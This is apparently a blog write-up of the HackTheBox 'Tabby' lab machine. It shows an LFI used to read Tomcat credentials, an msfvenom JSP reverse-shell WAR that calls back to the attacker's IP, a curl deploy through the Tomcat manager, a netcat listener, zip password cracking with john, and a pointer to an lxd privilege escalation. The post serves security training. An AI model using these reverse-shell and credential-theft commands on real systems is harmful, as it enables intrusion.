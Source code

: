 ```yaml
---
layout: post
title: "HackTheBox - Tabby"
description: "Walkthrough of Tabby box on Hackthebox."
thumb_image: "documentation/tabbythumb.png"
tags: [ hackthebox ]
---
```


{% include image.html path="documentation/tabby.webp"
path-detail="documentation/tabby.webp"
alt="HTB Tabby" %}

## HTB - Tabby

IP - 10.10.10.194

### Overview

This box was a easy level linux box on HTB created by [egre55](https://www.hackthebox.eu/home/users/profile/1190) , it started with finding an `LFI` on the website running on port `80` and using it to find the `credentials` of the `tomcat` manager portal, but manager portal is not accessible to us so we cannot upload our `war exploit` using it instead we use `curl` to upload and deploy our war exploit and get a `reverse shell` through it. User is simple, basic enumeration will lead to you a `zip file` and then we crack the password of that zip file, which is also the password of user `ash`. Root was pretty slick based on `lxd`, we found user ash is in group lxd and then simply follow an `lxd privesc blog` to get root on the box.

### Enumeration

As always let’s start off with nmap script nmap -sC for default scripts ~~Alright, if it isn’t obvious yet I am a IPPSEC fanboi.~~ Aight, firing up nmap to scan all open ports on the box.

{% highlight bash %}
nmap -sC -sV -oA nmap/results 10.10.10.194
{% endhighlight %} 
And here is our nmap result
{% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Pentest/HTB/Tabby]
└──╼ $cat nmap/result 
# Nmap 7.80 scan initiated Sun Jun 21 14:32:32 2020 as: nmap -sC -sV -oA nmap/result 10.10.10.194
Nmap scan report for 10.10.10.194
Host is up (0.25s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 21 14:33:24 2020 -- 1 IP address (1 host up) scanned in 52.75 seconds
{% endhighlight %}

So we have Apache web server on port 80, lets explore that first.

#### Enumerating the Apache Web Server

The website looks like some hosting platform.

{% include image.html path="documentation/tabbyapache.webp"
path-detail="documentation/tabbyapache.webp"
alt="HTB Tabby" %}

After a bit enumeration, we find `news.php` page which has an `LFI`.

{% include image.html path="documentation/tabbyapachenews.webp"
path-detail="documentation/tabbyapachenews.webp"
alt="HTB Tabby" %}
{% include image.html path="documentation/tabbyapachelfi.webp"
path-detail="documentation/tabbyapachelfi.webp"
alt="HTB Tabby" %}

I tried to find `apache logs` or any other logs that might help me get `RCE` but got nothing usefull at all. So I started enumeration the other `tomcat server`.

#### Enumerating the Tomcat Web Server

Ahh.. Default Tomcat page D: 
{% include image.html path="documentation/tabbytomcat.webp"
path-detail="documentation/tabbytomcat.webp"
alt="HTB Tabby" %}

I tried using `gobuster` to find hidden directories but got nothing at all D:

#### Foothold

After reading forums I got the nudge that we can look for the file that stores the default creds of tomcat user, using the `LFI` vuln we have on the main website running on port 80. 

{% include image.html path="documentation/tabbycreds.webp"
path-detail="documentation/tabbycreds.webp"
alt="HTB Tabby" %}

And we got tomcat credentials `tomcat:$3cureP4s5w0rd123!`

{% include image.html path="documentation/tabbymanager.webp"
path-detail="documentation/tabbymanager.webp"
alt="HTB Tabby" %}

Ah even though our creds are right we don’t have access to the manager console, I looked around for ways to upload our war exploit and found that we can use `curl` to upload and deploy it. _Thanks to `pop_eax` for nudge on the command as those bad characters were messing it up for me._ <br>
Alright first thing first, let’s create a reverse shell exploit using `msfvenom`.

{% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Pentest/HTB/Tabby]
└──╼ $msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.182 LPORT=9889 -f war > shell.war
Payload size: 1097 bytes
Final size of war file: 1097 bytes
{% endhighlight %} 

Cool, now let’s upload our war exploit using using the `curl` command.

{% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Pentest/HTB/Tabby]
└──╼ $curl -u tomcat:'$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/pwned&update=true" --upload-file shell.war
OK - Deployed application at context path [/pwned]
{% endhighlight %} 

Yeet, it got successfully deployed, starting the netcat listner using `rlwrap nc -lvnp 9889` and navigating to `http://10.10.10.194:8080/pwned` to get our reverse shell.

{% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Pentest/HTB/Tabby]
└──╼ $rlwrap nc -lvnp 9889
listening on [any] 9889 ...
connect to [10.10.14.182] from (UNKNOWN) [10.10.10.194] 35390
whoami
tomcat
which python
which python3
/usr/bin/python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
tomcat@tabby:/var/lib/tomcat9$ export TERM=xterm
export TERM=xterm
tomcat@tabby:/var/lib/tomcat9$ 
{% endhighlight %} 

### Getting User

{% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Pentest/HTB/Tabby]
└──╼ $rlwrap nc -lvnp 9889
listening on [any] 9889 ...
connect to [10.10.14.182] from (UNKNOWN) [10.10.10.194] 35390
...
tomcat@tabby:/var/www/html/files$ ls
ls
16162020_backup.zip  archive  revoked_certs  statement
tomcat@tabby:/var/www/html/files$
{% endhighlight %} 

After some basic enumeration we got a zip file which was password protected, so I pulled it over to my machine and cracked it using john, `zip2john *.zip > hash and john hash -wordlist=/usr/share/wordlist/rockyou.txt`.

{% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Pentest/HTB/Tabby]
└──╼ $john hashed --show
16162020_backup.zip:admin@it::16162020_backup.zip:var/www/html/news.php, var/www/html/logo.png, var/www/html/index.php:16162020_backup.zip

1 password hash cracked, 0 left
{% endhighlight %} 

Got the password for the zip file `admin@it` and it was also the password of user `ash`.

{% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Pentest/HTB/Tabby]
└──╼ $rlwrap nc -lvnp 9889
listening on [any] 9889 ...
connect to [10.10.14.182] from (UNKNOWN) [10.10.10.194] 35390
...
tomcat@tabby:/$ su
su
password : admit@it
ash@tabby:/$whoami
whoami
ash
{% endhighlight %} 

### Rooting the Box

{% highlight bash %}
sh@tabby:/$ id
id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
{% endhighlight %} 

`lxd` seems like something interesting, I googled about it and found a [blog post](https://www.hackingarticles.in/lxd-privilege-escalation/) that covers how you can do a privesc if user is in `lxd group`, I simply followed the blog to get root. _I am not covering the root part as it’s simple and a blog covering it is already present._

{% include image.html path="documentation/tabbyroot.webp"
path-detail="documentation/tabbyroot.webp"
alt="HTB Tabby" %}

###### Hope you learned something new, if you face any issues / have any query, feel free to contact me on social media.